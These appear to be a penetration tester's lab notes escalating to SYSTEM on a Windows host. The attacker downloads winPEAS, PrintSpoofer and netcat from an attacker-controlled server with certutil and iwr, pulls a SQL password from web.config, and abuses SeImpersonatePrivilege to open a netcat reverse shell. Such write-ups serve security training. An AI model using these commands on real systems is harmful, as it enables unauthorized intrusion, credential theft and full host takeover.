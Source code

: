 # Lets upload WinPEAS to check the machine
certutil.exe -urlcache -f http://192.168.45.195:8088/Windows/winPEASx64.exe C:/TEMP/winPEAS.exe
...
web.config found a password: WhileChirpTuesday218
...

cat web.config
```
<add name="myConnectionString" connectionString="server=localhost\SQLEXPRESS;database=webapp;uid=sa;password=WhileChirpTuesday218;Trusted_Connection=False;MultipleActiveResultSets=true; Integrated Security=False; Max Pool Size=500;" />
```
# We have a SQL server credentials here

# But idk how to use HAHA, lets see the privilege that this user have
whoami /priv
...
SeAssignPrimaryTokenPrivilege Replace a process level token    Disabled
SeIncreaseQuotaPrivilege   Adjust memory quotas for a process     Disabled
SeChangeNotifyPrivilege   Bypass traverse checking                  Enabled 
SeManageVolumePrivilege  Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege   Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege  Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set    Disabled
...
# SeImpersonatePrivilege is enabled
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer
# We can abuse it to get the NT AUTHORITY\SYSTEM level access
# Lets utilize one of the PrintSpoofer tools

PS C:\temp> iwr -uri http://192.168.45.195:8088/Windows/Priv-Esc/PrintSpoofer64.exe -Outfile Printspoof.exe
PS C:\TEMP> iwr -uri http://192.168.45.195:8088/Reverse-Shell/nc.exe -Outfile nc.exe
C:\TEMP>Printspoofer.exe -c "C:\TEMP\nc.exe 192.168.45.195 4444 -e powershell"

--------------------------------------------------------------------------------   
[+] Found privilege: SeImpersonatePrivilege                                        
[+] Named pipe listening...                                                        
[+] CreateProcessAsUser() OK                                                       
# Go to listener
PS C:\Windows\system32> whoami
nt authority\system
